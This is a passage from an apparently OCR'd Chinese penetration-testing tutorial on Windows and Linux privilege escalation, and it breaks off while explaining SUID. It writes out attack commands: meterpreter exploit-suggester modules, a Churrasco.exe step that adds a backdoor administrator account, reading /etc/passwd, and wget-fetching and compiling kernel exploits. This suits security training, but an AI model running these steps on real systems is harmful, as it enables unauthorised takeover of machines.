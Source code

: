 方法二：进入到 meterpreter 下，执行 run post/windows/gather/enum_patches 可以直接查看补丁情况
 
方法三：post/multi/recon/local_exploit_suggester 模块，用于快速识别系统中可能被利用的漏洞
 
方法四：WMIC命令也可以查看补丁数量
 
wmic qfe get Caption,Description,HotFixID,InstalledOn
 
也可以直接找是否存在某个cve-2018-8120对应的KB4131188补丁
 
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB4131188"
 
方法五：Windows Exploit Suggester
该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，而其只需要目标系统的信息。
通过msf生成反弹exe进行反弹操作，获取meterpreter通道
监听获取成功后，进行exp的筛选
探测可提取的模块use post/multi/recon/local_exploit_suggester
windows系统漏洞示例
Default
根据systeminfo查看补丁信息，发现未打上相应的补丁kb952004、KB956572，于是利用上传巴西烤肉（Churrasco.exe）exp提权，Churrasco.exe是Windows2003系统下的一个本地提权漏洞，通过此工具可以以SYSTEM权限执行命令，从而可以达到添加用户的目的。
由于低权限用户无法执行太多操作，可以利用反弹上传Churrasco.exe，后续可以利用它来做提权。
upload /root/Desktop/Churrasco.exe c:\\su
 
添加用户以及加入管理员组，方便我们提高操作权限。
Churrasco.exe "net user admin1 admin1 /add && net localgroup administrators admin1 /add"
 
输入net user指令查看是否添加成功，最后提权成功。

linux系统提权思路

一般情况下linux的本地提权要用nc反弹出来，因为Linux下提升权限后得到的是交互式shell，需反弹才能进行下一步命令的执行。
我们可以使用uname -a命令或者cat /proc/version，来判断系统的内核情况等等，然后使用相对应的exp进行提权。

提权过程中需要为你的提权exp赋权，chmod。
linux服务器很多情况下管理员会设置目录权限，我们无法修改，但是一般/tmp/目录不会被设置权限，这和windows下的tmp和回收站是一个道理，所以我们可以将exp存放到/tmp目录下。

linux基础信息收集
Default
uname -a 显示全部系统信息
cat /etc/issue 内核信息。此命令也适用于所有的Linux发行版
cat /etc/passwd 所有人都可看
ps aux | grep root

内核漏洞提权
Default
方法：
通过信息收集方式得知linux内核版本
使用searchspolit搜索相应版本漏洞
例：searchsploit linux 4.0.0
searchsploit Ubuntu 16.04
searchsploit Ubuntu 16 kernel 3.10
找到对应的.c源文件,将其发送到靶机/或是靶机下载 scp， wget http://127.0.0.1/xx.c
编译，gcc xxx.c -o exp

SUID提权
Default
概念
SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。
特点
SUID 权限仅对二进制程序有效
执行者对于该程序需要有可执行权限(x权限)
SUID 权限仅仅在程序执行过程中有效
执行该程序时，执行者将具有该程序拥有者的权限
 
